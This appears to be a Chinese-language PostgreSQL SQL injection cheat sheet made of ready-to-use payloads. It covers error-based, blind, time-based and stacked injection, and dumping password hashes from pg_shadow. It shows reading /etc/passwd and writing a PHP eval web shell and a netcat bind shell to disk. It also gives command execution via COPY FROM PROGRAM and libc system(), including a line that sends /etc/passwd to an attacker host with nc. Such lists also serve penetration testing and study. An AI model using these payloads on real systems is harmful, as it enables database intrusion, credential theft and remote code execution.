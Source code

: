  ##### 注释符
  	--
	/**/  
 ##### 版本
  	SELECT version()
 ##### 当前用户
	SELECT user;
	SELECT current_user;
	SELECT session_user;
	SELECT usename FROM pg_user;
	SELECT getpgusername();
 ##### 列出用户
	SELECT usename FROM pg_user
 ##### 列出密码哈希
	SELECT usename, passwd FROM pg_shadow 
 ##### 列出数据库管理员帐户
	SELECT usename FROM pg_user WHERE usesuper IS TRUE
 ##### 列出权限
	SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
 ##### 检查当前用户是否为超级用户
	SHOW is_superuser; 
	SELECT current_setting('is_superuser');
	SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
 ##### 数据库名
	SELECT current_database()
 ##### 列出数据库
	SELECT datname FROM pg_database
 ##### 列出表
	SELECT table_name FROM information_schema.tables
 ##### 列出字段
	SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
 ##### 基于报错类型
	,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
	,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
	,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
	,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

	' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
	' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
	' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
	' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
	XML Helper
	select query_to_xml('select * from pg_user',true,true,''); -- 将所有结果作为单行xml 返回
	select database_to_xml(true,true,''); -- 以XML形式列出当前数据库
	select database_to_xmlschema(true,true,''); -- 以XML schema形式列出当前数据库
 ##### 盲注
	' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
	' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
 ##### 基于时间盲注
	AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
	AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
 ##### 堆查询
	使用分号“;” 添加另一个查询
	http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
 ##### 读取文件
	select pg_ls_dir('./');
	select pg_read_file('PG_VERSION', 0, 200);
	select pg_read_file('postgresql.auto.conf',0,100);  行数
	早期版本不接受pg_read_file或pg_ls_dir中的绝对路径，新版本允许超管和在default_role_read_server_files组的用户读文件
	CREATE TABLE temp(t TEXT);
	COPY temp FROM '/etc/passwd';
	SELECT * FROM temp limit 1 offset 0;

	SELECT lo_import('/etc/passwd');
	SELECT lo_get(16420);
	SELECT * from pg_largeobject;
 ##### 列目录
  	select pg_ls_dir('/etc');
 ##### 写文件
	CREATE TABLE pentestlab (t TEXT);
	INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
	insert into shell values($$<?php @eval($_POST[1]);?>$$);
	SELECT * FROM pentestlab;
	COPY pentestlab(t) TO '/tmp/pentestlab';
	或
	COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
	copy (select '<?php phpinfo();?>') to '/var/www/html/shell.php';

	SELECT lo_from_bytea(43210, 'your file data goes in here');
	SELECT lo_put(43210, 20, 'some other data'); 
	SELECT lo_export(43210, '/tmp/testexport'); 
 ##### 命令执行
	CVE-2019–9193
	DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
	CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
	COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
	SELECT * FROM cmd_exec;                 -- [Optional] View the results
	DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
	使用 libc.so.6
	CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
	SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
 ##### bypass 过滤器
	使用 CHR
	SELECT CHR(65)||CHR(66)||CHR(67);
	版本>8 PostgreSQL使用$符合
	SELECT $$This is a string$$
	SELECT $TAG$This is another string$TAG$